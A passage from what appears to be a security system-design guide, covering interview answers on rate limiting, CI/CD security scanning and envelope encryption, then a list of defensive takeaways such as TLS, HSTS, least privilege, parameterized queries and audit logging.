- Different limits for different endpoint types: authentication endpoints get stricter limits (5/min) than read endpoints (100/min)
- Rate limit by: user ID (if authenticated), API key (for partner APIs), IP (for unauthenticated requests)
- Return `429 Too Many Requests` with `Retry-After` header
- Consider token bucket for burst-friendly APIs, leaky bucket for steady-rate enforcement

### Q9: "What security checks would you add to a CI/CD pipeline?"

1. **Pre-commit:** gitleaks / git-secrets (catch secrets before they're committed)
2. **SAST:** Semgrep, CodeQL (static analysis for security patterns)
3. **Dependency scan:** Snyk, Dependabot (CVEs in dependencies)
4. **Container scan:** Trivy (OS vulnerabilities in Docker base images)
5. **Secrets in code:** GitGuardian CI integration
6. **DAST:** OWASP ZAP against staging environment
7. **Policy:** Block deployment if CRITICAL vulnerabilities found; alert on HIGH

### Q10: "What is envelope encryption and why is it used?"

- Directly encrypting data with a master key means you must re-encrypt petabytes of data every time you rotate the master key
- Envelope encryption: generate a random Data Encryption Key (DEK) per record/batch; encrypt the data with the DEK; encrypt the DEK with a Key Encryption Key (KEK) stored in KMS
- Store: ciphertext + encrypted DEK together
- Key rotation: only re-encrypt the small DEKs, not the data itself
- KEK never leaves the HSM (Hardware Security Module) in KMS — your app never sees it
- Used by: AWS KMS, Google Cloud KMS, HashiCorp Vault

---

## 19. Key Takeaways

1. **Security is defense in depth.** Assume every individual layer will eventually fail. CDN, WAF, API gateway, application validation, encryption, audit logs — you need all of them, every time.

2. **TLS 1.3 everywhere, not just at the perimeter.** Every hop — client to gateway, gateway to service, service to database, service to Redis — uses TLS. mTLS for service-to-service (handled by a service mesh like Istio without code changes).

3. **HSTS makes HTTPS mandatory at the browser level.** `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload` — one header, prevents SSL stripping attacks.

4. **Zero Trust means "never trust, always verify."** Being inside the network grants no implicit trust. Every call, every service, every user — authenticated and authorized explicitly.

5. **Never hardcode secrets.** Use HashiCorp Vault or AWS Secrets Manager. Fetch at runtime, never bake into images. Use IAM roles instead of access keys wherever possible. Rotate automatically.

6. **BOLA (broken object authorization) is the most common API vulnerability.** Always filter by BOTH the resource ID AND the authenticated user's ID. Never rely on the client sending the right user ID.

7. **SQL injection is prevented by parameterized queries — always.** Use an ORM as the default. Never concatenate user input into SQL strings.

8. **CSRF is prevented by SameSite=Strict cookies.** Plus CSRF tokens for state-changing form submissions.

9. **XSS is prevented by output encoding + CSP headers.** React's JSX escapes by default. Add a Content-Security-Policy header to block inline script execution even if injection succeeds.

10. **Principle of least privilege — every entity gets minimum access.** Separate DB users per service. Specific IAM policies per Lambda/EC2. Network policies per namespace.

11. **Audit logs must be immutable and comprehensive.** Log WHO did WHAT and WHEN on every sensitive operation. Use S3 Object Lock for append-only retention. Required for SOC2, HIPAA, PCI-DSS.

12. **Security in CI/CD — shift left.** Secrets scanning, SAST, dependency scanning, and container image scanning in every pull request. Fix in code, not in production.

13. **GDPR and DPDP compliance requires data minimization + deletion capability.** Collect only what you need. Implement right-to-deletion with anonymization (not just soft-delete). Enforce data residency at the infrastructure level.

14. **Think like an attacker.** For every system you design, trace the path: "How would an attacker get in? Move laterally? Escalate privilege? Exfiltrate data? Cover tracks?" Defense in depth addresses each step.

15. **Encrypt at rest with envelope encryption.** AES-256-GCM for data, KMS for key management. Enable RDS encryption, S3 default encryption, EBS encryption. Encrypt backups. Encrypt Redis persistence.

---

*Security nahi hai sirf ek feature — yeh ek property hai pure system ki. Jab architecture design karo, security ko pehle se plan karo — baad mein nahi.*
